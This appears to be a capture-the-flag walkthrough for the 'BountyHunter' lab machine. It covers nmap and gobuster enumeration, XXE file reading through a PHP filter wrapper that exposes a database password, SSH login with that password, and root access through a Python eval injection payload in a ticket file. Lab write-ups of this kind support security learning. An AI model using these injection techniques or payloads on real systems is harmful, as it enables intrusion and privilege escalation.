







# BountyHunter
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.11.100
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-07 15:22 BST
Nmap scan report for 10.10.11.100 (10.10.11.100)
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Bounty Hunters
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.17 seconds
```
- `gobuster`
```
└─$ gobuster dir -u http://10.10.11.100/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.100/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2023/08/07 15:32:18 Starting gobuster in directory enumeration mode
===============================================================
/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]
/.php                 (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 25169]
/portal.php           (Status: 200) [Size: 125]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]
/db.php               (Status: 200) [Size: 0]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]

```
- Web Server 


## Foothold/User
- If we visit `/portal.php`
  - We see that it redirects us to `/log_submit.php`



- When we submit report from `/log_submit.php`, the `POST` request is sent to `/tracker_diRbPr00f314.php`
  - the `data` is base64 encoded `xml`




- We can test for `XXE`
  - And it works


- Now we can try looking for creds
  - We can load `php` files and analyse the source code
  - I remembered `db.php` file from `gobuster` results
  - Since it's `php` file we need to wrap `php` file around filter, or it will return empty
  - Check the [post](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#php-wrapper-inside-xxe)
  - `admin:m19RoAU0hP41A1sTsq6K`




- Use creds for `ssh`
  - There is no `admin` user, but we have `development` user
  - The creds work


## Root
- Enumerate `sudo` rights


- If we check `source` code 
  - We can use `eval` function by inserting values to ticket



- Example of ticket
```
development@bountyhunter:/opt/skytrain_inc/invalid_tickets$ cat 390681613.md 
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**31+410+86**
##Issued: 2021/04/06
#End Ticket
```

- We can copy and modify valid ticket 
  - add payload between `**` 
  - The first `int` should satisfy `if int(ticketCode) % 7 == 4:`
  - Payload: `32+110+43+ __import__('os').system('bash')`



